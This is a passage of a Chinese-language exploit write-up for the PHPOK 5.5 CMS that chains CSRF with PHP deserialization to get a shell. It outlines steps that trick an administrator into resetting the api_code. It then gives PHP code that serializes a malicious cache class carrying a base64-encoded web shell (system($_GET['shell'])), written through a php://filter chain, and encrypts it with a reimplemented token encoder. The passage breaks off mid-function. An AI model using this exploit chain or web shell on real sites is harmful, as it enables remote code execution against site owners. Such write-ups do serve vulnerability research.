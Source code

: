 1.  诱导管理员访问精心构造的CSRF脚本，修改`api_code`
2.  利用已知的`api_code`，对上面可被恶意反序列化的类进行序列化后加密
3.  调用解密函数，触发反序列化

假设此处已经通过CSRF重置了系统的`api_code`为`123456`

![5.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId33.png)

使用脚本序列化恶意类，并对其进行`encode`

    <?php
    class cache{
        protected $key_id;
        protected $key_list;
        protected $folder;

        public function __construct(){
            $this->key_id = 'naiquan';
            $this->key_list = 'a'.base64_encode('<?php system($_GET["shell"]);?>');
            $this->folder = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=';
        }
    }
    class token{
        private $keyid = '';
        private $keyc_length = 6;
        private $keya;
        private $keyb;
        private $time;
        private $expiry = 3600;

        public function keyid($keyid=''){
            if(!$keyid){
                return $this->keyid;
            }
            $this->keyid = strtolower(md5($keyid));
            $this->config();
            return $this->keyid;
        }
        private function config(){
            if(!$this->keyid){
                return false;
            }
            $this->keya = md5(substr($this->keyid, 0, 16));
            $this->keyb = md5(substr($this->keyid, 16, 16));
        }

        public function encode($string){
            if(!$this->keyid){
                return false;
            }

            $expiry_time = $this->expiry ? $this->expiry : 365*24*3600;
            $string = sprintf('%010d',($expiry_time + time())).substr(md5($string.$this->keyb), 0, 16).$string;
            $keyc = substr(md5(microtime().rand(1000,9999)), -$this->keyc_length);
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            return $keyc.str_replace('=', '', base64_encode($rs));
            //return $keyc.base64_encode($rs);
        }
        private function core($string,$cryptkey){
            $key_length = strlen($cryptkey);
            $string_length = strlen($string);
            $result = '';
            $box = range(0, 255);
            $rndkey = array();
            // 产生密匙簿
            for($i = 0; $i <= 255; $i++){